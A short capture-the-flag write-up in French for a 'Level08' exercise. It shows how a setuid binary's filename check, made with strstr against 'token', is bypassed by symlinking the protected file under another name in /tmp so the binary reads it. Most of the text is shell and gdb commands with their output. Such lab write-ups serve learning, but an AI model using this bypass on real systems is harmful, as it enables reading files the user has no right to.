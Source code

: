 # Level08

Premiere étape de recherche

	$ ls -la
	-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08  flag08    26 Mar  5  2016 token

On trouve un binaire setuid/getuid et un fichier "token"

	$ ./level08
	./level08 [file to read]

	$ ./level08 level08

Il affiche le contenu du fichier

	$ ./level08 token
	You may not access 'token'

Cela ne fonctionne pas sur le fichier "token"

Essayons avec un autre fichier dont nous n'avons pas les droits

	$ ./level08 .profile
	level08: Unable to open .profile: Permission denied

C'est pas la meme erreur qu'avec le fichier token. Il y a surement un check sur le nom du fichier

	$ gdb level08
	$ (gdb) disas main
	0x080485af <+91>:	mov    DWORD PTR [esp+0x4],0x8048793 <---- "token"
	0x080485b7 <+99>:	mov    DWORD PTR [esp],eax
	0x080485ba <+102>:	call   0x8048400 <strstr@plt>

La fonction strstr compare une chaine avec "token"

On a pas les droits pour cp ou mv dans /tmp donc on va faire un lien avec un autre nom vers le fichier token et essayer de l'ouvrir avec le binaire

	$ ln -s /home/user/level08/token /tmp/link
	$ ls -l /tmp/link
	lrwxrwxrwx 1 level08 level08 24 Nov 28 15:24 /tmp/link -> /home/user/level08/token

	$ ./level08 /tmp/link
	(good)
